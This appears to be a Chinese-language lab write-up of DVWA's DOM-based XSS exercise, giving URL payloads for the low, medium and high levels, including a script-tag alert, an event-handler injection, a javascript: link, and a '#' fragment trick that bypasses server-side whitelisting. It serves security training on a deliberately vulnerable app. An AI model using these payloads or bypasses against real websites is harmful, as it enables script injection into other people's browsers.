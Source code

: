 ```yaml
---
title: DVWA-XSS‘DOM型’手记
date: 2018-10-10 21:29:38
tags: [DVWA,XSS]
categories: XSS
---
```


# DVWA-XSS‘DOM型’手记

------

可能触发DOM型XSS的属性：

```
document.referer属性
 
window.name属性
 
location属性
 
innerHTML属性
 
documen.write属性
```



## LOW

### Source:

![001](/img/xss/dvwa/Dom/low_001.png)

### Analysis:	

```
没有进行任何过滤,利用F12开发者模式寻找到DOM位置。找到name属性为default,通过在url中的default参数来修改页面。
```

![002](/img/xss/dvwa/Dom/low_002.png)

这里可以直接弹窗。

```
1.http://10.60.250.3/dvwa/vulnerabilities/xss_d/?default=<script>alert(1)</script>
```

![003](/img/xss/dvwa/Dom/low_003.png)

可以发现结构已经被破坏了。

![004](/img/xss/dvwa/Dom/low_004.png)

同样可以构造闭合将页面破坏成想要的样子。

2.`http://10.60.250.3/dvwa/vulnerabilities/xss_d/?default=</select><a href=# onmouseover=alert('事件')>ClickHere</a><select name="fuck">`

### Process:

![005](/img/xss/dvwa/Dom/low_005.png)

![006](/img/xss/dvwa/Dom/low_006.png)

## MEDIUM

### Source:

![007](/img/xss/dvwa/Dom/medium_001.png)

### Analysis:	

```
查找是否存在<script,stripos能检验大小写的,发现恶意构造的就默认使用English。
既然这样就不使用<script即可。
```


    1. 使用事件
      `http://10.60.250.250/DVWA/vulnerabilities/xss_d/?default=</select><a href=# onmouseover=alert('事件')>ClickHere</a><select name="fuck">`
    2. 使用javascript协议
     `http://10.60.250.3/dvwa/vulnerabilities/xss_d/?default=</select><a href="javascript:alert('javascript')">Clickme</a><select name="fuck">`

### Process:

1. 使用事件

![008](/img/xss/dvwa/Dom/medium_002.png)

2. 使用javascript协议

   ![009](/img/xss/dvwa/Dom/medium_003.png)

![010](/img/xss/dvwa/Dom/medium_004.png)

## HIGH

### Source:

![011](/img/xss/dvwa/Dom/high_001.png)

### Analysis:	

```
类似于白名单过滤,看似无懈可击,但是可以利用URL的一个特性。
URL的部分发往服务器时#号后面的并不会发送到服务器，但是javascript代码
还会正常读取，所以利用这个特性来绕过服务器端的检查。
```

1.`http://192.168.1.111/DVWA/vulnerabilities/xss_d/?default=#</select><a href=# onmouseover=alert('事件')>ClickHere</a><select name="fuck">`

### Process:

![012](/img/xss/dvwa/Dom/high_002.png)

![013](/img/xss/dvwa/Dom/high_003.png)

## IMPOSSIBLE

### Source:

![014](/img/xss/dvwa/Dom/impossible_01.png)

提示已经用客户端侧进行保护了,无法再进行修改。